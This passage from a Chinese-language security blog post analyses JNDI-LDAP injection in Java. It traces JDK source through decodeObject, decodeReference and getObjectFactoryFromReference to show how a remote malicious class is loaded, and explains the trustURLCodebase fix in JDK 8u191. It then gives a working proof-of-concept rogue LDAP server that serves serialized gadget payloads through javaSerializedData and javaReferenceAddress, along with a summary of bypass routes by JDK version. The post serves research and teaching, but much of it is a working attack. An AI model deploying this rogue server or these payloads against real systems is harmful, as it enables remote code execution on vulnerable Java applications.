    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])((byte[])var1.get()), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
//调用了 decodeReference 方法
            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
    }
}
```

`Obj`类的`decodeReference`方法根据`Ldap`传入的`addAttribute`属性构造并返回了一个新的`reference`对象引用

```bash
private static Reference decodeReference(Attributes var0, String[] var1) throws NamingException, IOException {
        String var4 = null;
        Attribute var2;
        if ((var2 = var0.get(JAVA_ATTRIBUTES[2])) == null) {
            throw new InvalidAttributesException(JAVA_ATTRIBUTES[2] + " attribute is required");
        } else {
            String var3 = (String)var2.get();
            if ((var2 = var0.get(JAVA_ATTRIBUTES[3])) != null) {
                var4 = (String)var2.get();
            }
            //返回一个新的 Reference 对象引用
            Reference var5 = new Reference(var3, var4, var1 != null ? var1[0] : null);
            //获取第 6 个属性
            if ((var2 = var0.get(JAVA_ATTRIBUTES[5])) != null) {
               //省略部分代码
            }
            //直接返回 reference 对象
            return var5;
        }
}
```

`LADP`服务的`Reference`对象引用的获取和`jndi`注入中的不太一样，`jndi`是通过`ReferenceWrapper_Stub`对象的`getReference`方法获取`reference`对象，而`LADP`服务是根据传入的属性构造一个新的`reference`对象引用，接着获取了第 6 个属性并判断是否为空，如果第 6 个属性为`null`则直接返回新的`reference`对象引用。

`reference`对象的三个属性：`className`，`classFactory`，`classFactoryLocation`）如下所示：  
[](https://storage.tttang.com/media/attachment/2022/05/25/54d90b72-d850-472c-a63d-d3bb838340a3.png)  
接着会返回到`decodeObject`方法调用处，然后再返回到`LdapCtx`类的`c_lookup`方法调用处，接着往下执行调用`getObjectInstance`方法

```bash
protected Object c_lookup(Name var1, Continuation var2) throws NamingException {
    var2.setError(this, var1);
    Object var3 = null;

    Object var4;
    try {
        SearchControls var22 = new SearchControls();
        var22.setSearchScope(0);
        var22.setReturningAttributes((String[])null);
        var22.setReturningObjFlag(true);
        LdapResult var23 = this.doSearchOnce(var1, "(objectClass=*)", var22, true);
        this.respCtls = var23.resControls;
        if (var23.status != 0) {
            this.processReturnCode(var23, var1);
        }

        if (var23.entries != null && var23.entries.size() == 1) {
            LdapEntry var25 = (LdapEntry)var23.entries.elementAt(0);
            var4 = var25.attributes;
            Vector var8 = var25.respCtls;
            if (var8 != null) {
                appendVector(this.respCtls, var8);
            }
        } else {
            var4 = new BasicAttributes(true);
        }

        if (((Attributes)var4).get(Obj.JAVA_ATTRIBUTES[2]) != null) {
//var3 接收 reference 对象
            var3 = Obj.decodeObject((Attributes)var4);
        }

        if (var3 == null) {
            var3 = new LdapCtx(this, this.fullyQualifiedName(var1));
        }
    } catch (LdapReferralException var20) {
        LdapReferralException var5 = var20;
        if (this.handleReferrals == 2) {
            throw var2.fillInException(var20);
        }

        while(true) {
            LdapReferralContext var6 = (LdapReferralContext)var5.getReferralContext(this.envprops, this.bindCtls);

            try {
                Object var7 = var6.lookup(var1);
                return var7;
            } catch (LdapReferralException var18) {
                var5 = var18;
            } finally {
                var6.close();
            }
        }
    } catch (NamingException var21) {
        throw var2.fillInException(var21);
    }

    try {
//调用了 getObjectInstance 方法
        return DirectoryManager.getObjectInstance(var3, var1, this, this.envprops, (Attributes)var4);
    } catch (NamingException var16) {
        throw var2.fillInException(var16);
    } catch (Exception var17) {
        NamingException var24 = new NamingException("problem generating object using object factory");
        var24.setRootCause(var17);
        throw var2.fillInException(var24);
    }
}
```

`c_lookup`方法将`var3`（`reference`对象）传给了`getObjectInstance`方法的`refInfo`参数，继续跟进分析`getObjectInstance`方法

```bash
    public static Object getObjectInstance(Object refInfo, Name name, Context nameCtx , Hashtable<?,?> environment, Attributes attrs) throws Exception {
            ObjectFactory factory;
            //获取对象工厂
            ObjectFactoryBuilder builder = getObjectFactoryBuilder();
            if (builder != null) {
                // builder must return non-null factory
                factory = builder.createObjectFactory(refInfo, environment);
                if (factory instanceof DirObjectFactory) {
                    return ((DirObjectFactory)factory).getObjectInstance(
                        refInfo, name, nameCtx, environment, attrs);
                } else {
                    return factory.getObjectInstance(refInfo, name, nameCtx,
                        environment);
                }
            }

            // use reference if possible
            Reference ref = null;
            //判断reference对象是否为Reference
            if (refInfo instanceof Reference) {
                 //转换为Reference类型
                ref = (Reference) refInfo;
            } else if (refInfo instanceof Referenceable) {
                ref = ((Referenceable)(refInfo)).getReference();
            }

            Object answer;
            //reference对象是否为空
            if (ref != null) {
                //获取工厂类名Exp
                String f = ref.getFactoryClassName();
                if (f != null) {
                    // if reference identifies a factory, use exclusively
                    //根据工厂类远程获取对象引用
                    factory = getObjectFactoryFromReference(ref, f);
                    if (factory instanceof DirObjectFactory) {
                        return ((DirObjectFactory)factory).getObjectInstance(
                            ref, name, nameCtx, environment, attrs);
                    } else if (factory != null) {
                        return factory.getObjectInstance(ref, name, nameCtx,
                                                         environment);
                    }
                    // No factory found, so return original refInfo.
                    // Will reach this point if factory class is not in
                    // class path and reference does not contain a URL for it
                    return refInfo;

                } else {
                    // if reference has no factory, check for addresses
                    // containing URLs
                    // ignore name & attrs params; not used in URL factory

                    answer = processURLAddrs(ref, name, nameCtx, environment);
                    if (answer != null) {
                        return answer;
                    }
                }
            }

            // try using any specified factories
            answer = createObjectFromFactories(refInfo, name, nameCtx,
                                               environment, attrs);
            return (answer != null) ? answer : refInfo;

    }
```

`getObjectInstance`方法将`reference`对象转换为`Reference`类型并判断`reference`对象是否为空，如果不为空则从`reference`引用中获取工厂类`Exp`名字，接着调用`getObjectFactoryFromReference`方法根据工厂类 Exp 名字获取远程调用对象。

`getObjectFactoryFromReference`方法实现如下：

```bash
    static ObjectFactory getObjectFactoryFromReference(Reference ref, String factoryName) throws IllegalAccessException,InstantiationException, MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             //尝试先在本地加载Exp类
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        //获取远程地址
        if (clas == null && (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                //loadClass方法远程加载Exp类
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {

            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
```

[](https://storage.tttang.com/media/attachment/2022/05/25/e81b0bd5-336c-4141-8925-dc09a0ccfa3d.png)  
可以看到`LDAP`服务跟`jndi`一样，会尝试先在本地查找加载`Exp`类，如果本地没有找到`Exp`类，那么`getFactoryClassLocation`方法会获取远程加载的`url`地址，如果不为空则根据远程`url`地址使用类加载器`URLClassLoader`来加载`Exp`类，通过分析发现`LDAP`服务的整个利用流程都没有`URLCodebase`限制。  
看一下整个调用站栈  
[](https://storage.tttang.com/media/attachment/2022/05/25/b956cc02-77f5-47b0-91fb-b50bd619731e.png)

### [高版本运行](#toc__8)

#### [限制](#toc__9)

在`jdk8u191`以上的版本中修复了`LDAP`服务远程加载恶意类这个漏洞，`LDAP`服务在进行远程加载之前也添加了系统属性`trustURLCodebase`的限制，通过分析在`jdk8u191`版本发现，在`loadClass`方法内部添加了系统属性`trustURLCodebase`的判断，如果`trustURLCodebase`为`false`就直接返回`null`，只有当`trustURLCodebase`值为`true`时才允许远程加载。  
[](https://storage.tttang.com/media/attachment/2022/05/25/0a671754-9117-443b-8858-3919227da73d.png)

在高版本 `JDK` 中需要通过 `com.sun.jndi.ldap.object.trustURLCodebase` 选项去启用。这个限制在 `JDK 11.0.1`、`8u191`、`7u201`、`6u211` 版本时加入，略晚于 `RMI` 的远程加载限制。

#### [使用序列化数据，触发 Gadget](#toc_gadget)

触发点一：`com.sun.jndi.ldap.Obj.java#decodeObject`存在对`JAVA_ATTRIBUTES[SERIALIZED_DATA]`的判断  
[这里](#%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90)提到 `com.sun.jndi.ldap.Obj.java#decodeObject` 主要功能是解码从`LDAP Server`来的对象，该对象可能是序列化的对象，也可能是一个`Reference`对象。之前讲到`Reference`对象，现在讲一下传来的是序列化的对象这种情况。  
如果是序列化对象会调用`deserializeObject`方法  
[](https://storage.tttang.com/media/attachment/2022/05/25/0f23b7e2-d585-4310-a4cd-f3705039f291.png)  
进入`deserializeObject`方法，发现会进行`readObject`  
[](https://storage.tttang.com/media/attachment/2022/05/25/131b7fe6-fedf-45f1-b860-db06560a5dfe.png)  
看一下调用栈  
[](https://storage.tttang.com/media/attachment/2022/05/25/6f3b9090-de13-46b7-9447-5058855844cc.png)

#### [Poc](#toc_poc_1)

```bash
import com.alter.JNDI_LDAP.util.serializeObject;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


import static com.alter.JNDI_LDAP.util.serializeObject.getPayload;
import static com.alter.JNDI_LDAP.util.serializeObject.serializeObject;

public class Ldap {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] argsx) {
        String[] args = new String[]{"http://127.0.0.1:8000/#EvilClass", "1389"};
        int port = 0;
        if (args.length < 1 || args[0].indexOf('#') < 0) {
            System.err.println(Ldap.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (args.length > 1) {
            port = Integer.parseInt(args[1]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {

            //jdk8u191之后
            e.addAttribute("javaClassName", "foo");
            //getObject获取Gadget

            e.addAttribute("javaSerializedData", serializeObject(getPayload()));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

和低版本`JDK`运行的`Server`端代码差不多，就把`sendResult`处的代码改成能触发反序列化漏洞的利用链就可以

触发点二：`com.sun.jndi.ldap.Obj.java#decodeReference`函数在对普通的`Reference`还原的基础上，还可以进一步对`RefAddress`做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足`RefAddress`的方式，也可以达到上面第一种的效果。  
需满足以下条件：  
1.第一个字符为分隔符  
2.第一个分隔符与第二个分隔符之间，表示`Reference`的`position`，为`int`类型  
3.第二个分隔符与第三个分隔符之间，表示`type`，类型  
4.第三个分隔符是双分隔符的形式，则进入反序列化的操作  
5.序列化数据用`base64`编码  
`payload`如下

```bash
//方式二
e.addAttribute("javaClassName", "foo");
e.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serializeObject(getPayload())));
e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
```

[](https://storage.tttang.com/media/attachment/2022/05/25/3eda86ed-bbea-4b55-b2c2-a8e25724d918.png)

[](https://storage.tttang.com/media/attachment/2022/05/25/6e5bcaff-c030-4cf3-85dc-85f19a2917ab.png)

[](https://storage.tttang.com/media/attachment/2022/05/25/6e95b71e-17aa-4b7d-8eb6-4cac9583a921.png)  
触发点二只是一个锦上添花的步骤，我们可以直接用第一种方法，第二种在第一种不能用的情况下可以试试。

## [总结](#toc__10)

-   `JDK 5U45`、`6U45`、`7u21`、`8u121` 开始 `java.rmi.server.useCodebaseOnly` 默认配置为`true`
-   `JDK 6u132`、`7u122`、`8u113` 开始 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值为`false`
-   `JDK 11.0.1`、`8u191`、`7u201`、`6u211` 开始 `com.sun.jndi.ldap.object.trustURLCodebase` 默认为`false`

由于`JNDI`注入动态加载的原理是使用`Reference`引用`Object Factory`类，其内部在上文中也分析到了使用的是`URLClassLoader`，所以不受`java.rmi.server.useCodebaseOnly=false`属性的限制。  
但是不可避免的受到 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`的限制。

所以，`JNDI-RMI`注入方式有： \* `codebase`(`JDK 6u132`、`7u122`、`8u113`之前可以) \* 利用本地`Class Factory`作为`Reference Factory`

`JNDI-LDAP`注入方式： \* `codebase`(`JDK 11.0.1`、`8u191`、`7u201`、`6u211`之前可以) \* `serialize`（两个切入点）

另外，测试代码报`readtime out`错误的话可能是本机`Socket`开了代理，关了就好。

## [Reference](#toc_reference_1)

[https://evilpan.com/2021/12/13/jndi-injection/](https://evilpan.com/2021/12/13/jndi-injection/)  
[https://blog.csdn.net/weixin\_45682070/article/details/122622236](https://blog.csdn.net/weixin_45682070/article/details/122622236)  
[https://blog.csdn.net/qq\_35733751/article/details/118767640](https://blog.csdn.net/qq_35733751/article/details/118767640)  
[https://www.anquanke.com/post/id/201181](https://www.anquanke.com/post/id/201181)
